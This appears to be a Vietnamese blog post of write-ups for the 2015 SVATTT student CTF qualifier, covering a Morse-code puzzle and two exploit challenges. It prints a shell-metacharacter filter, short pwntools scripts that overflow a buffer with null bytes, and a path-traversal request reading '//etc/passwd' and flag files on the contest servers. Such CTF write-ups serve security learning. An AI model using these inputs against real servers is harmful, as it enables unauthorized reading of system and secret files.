 ```yaml
---
layout: post
title: "Vòng loại sinh viên với an toàn thông tin 2015 - Writeups"
date: 2015-11-07 07:17:10 +0000
comments: true
categories: 
---
```


Sinh viên với An toàn thông tin 2015 là một kì thi cho sinh viên được tổ chức dưới dạng các bài thi CTF kết hợp với những challenge lý thuyết - chúng ta có thể giải được bằng các kĩ thuật recon ;))

Trong vòng loại, team mình là Animal.OhYeah (viết liền, không có dấu cách) có thứ hạng cũng khá cao #firstPlace nên hôm nay mình cũng có chút động lực để chia sẻ. Mọi lần mình viết bằng Tiếng Anh, nhưng mà mình viết chán quá đọc chả ai hiểu cả, nên lần này mình quyết định viết bằng tiếng Việt.

Trong vòng thi vừa rồi, mình hỗ trợ các bạn khác trong nhóm giải các lây hỏi lý thuyết trắc nghiệm, hai bài exploit 100, bài hidden 100, tự mình không giải được bài nào cả.

Hiện tại tính đến thời điểm mình viết bài thì các challenge vẫn available tại [đây](http://svattt.vnsecurity.net/)

##Misc 100 - Quảng Ngãi :: Hidden

~~~
Hidden
CTF :)
~~~
[Read this.](http://119.15.167.211/static/materials/misc100.html_659ff899f5bb31242424b127aafb9a35)

Bọn mình download file kia về, copy một đoạn để tìm file gốc trên google, sau đó quan sát và phát hiện giữa hai file có một số kí tự bị thay đổi là `-`, `.` và ` ` .

> Morse code ?

Mình quyết định viết thử tool, còn bạn mình thì (trâu bò) dùng tay. Cuối cùng thì tool mình chạy sai không ra, bạn mình có kết quả trước.

Flag: `SVATTTM0RS3`

##Exploit 100 - Hoàng Sa ::  int i = 0;

~~~
int i = 0;
Hint: < > ! @ # $ % ^ `
nc 119.15.167.212 31338
~~~
[Source](http://119.15.167.211/static/materials/exp100.c_a0a271df98aec280f58bb5cfd9991709)

Bài này một bạn trong team mình reverse, sau đó kêu mình cứ ghi tràn 128 bytes `null` và sau đó có thể gửi dữ liệu vào được.
Dữ liệu vào sẽ được ghép vào hàm `man` và thực thi như sau:

```
"man " + input
```

Mình chạy sang xem qua thì thấy filter một vài ký tự :

```
if(strchr(buffer,'-')!=0) return 0;
if(strchr(buffer,';')!=0) return 0;
if(strchr(buffer,'|')!=0) return 0;
if(strchr(buffer,'&')!=0) return 0;
if(strchr(buffer,' ')!=0) return 0;
if(strchr(buffer,'\t')!=0) return 0;
if(strchr(buffer,'\n')!=0) return 0;
if(strchr(buffer,'\r')!=0) return 0;
if(strchr(buffer,'\'')!=0) return 0;
if(strchr(buffer,'"')!=0) return 0;
```

Mình nghĩ đến `-l` , nhưng không được. Bí quá guessing thử `/home/exp100/flag.txt` thì ok. Mình cũng chả biết tại sao +_+

```
from pwn import *
try:
    r = remote('119.15.167.212', 31338)    
    print r.recvuntil(':')
    r.send('\x00' * 128)
    print r.recvuntil('> ')
    r.send('/home/exp100/flag.txt')
    print r.recv(1000)
except Exception, e:
    print e
```

We have flag: `SVATTT_has_just_begun`

Hôm nay viết bài, mình mới thấy cái hint, và cũng không rõ cái hint đó có ý nghĩa gì :/

##Exploit 100 - Hải Phòng :: Weird HTTP

~~~
Weird HTTP
I really love C <3.
One byte to rule them all.
http://119.15.167.212:31335/index.html
~~~

Nói đến bài này, thì phải bắt đầu từ lúc đồng đội mình gửi cho mình cách `nc 119.15.167.212 31335` (IP và địa chỉ của kì thi lúc đó có thể sẽ khác), sau đó chèn thêm đoạn payload `GET /index.php HTTP/1.1` có kết quả.

Mình thử thay bằng `GET //etc/passwd HTTP/1.1` thì có thêm vài thông tin thú vị.

Mình thay tiếp thành `GET //home/exp100-python/flag HTTP/1.1` thì có flag :o
> Awesome... (.______.")

Dưới đây là code pwn của mình :v (vì đây là bài pwn mà :( )

```
from pwn import *

try:    
    r = remote('119.15.167.212', 31335)    
    code = 'GET //home/exp100-python/flag' + ' HTTP/1.1'    
    r.send(code)
    print r.recv()    
    print r.recv()        
except Exception, e:
    print e
```

Flag: `SVATTT_u_got_easter_egg`

> Have fun and Happy hacking
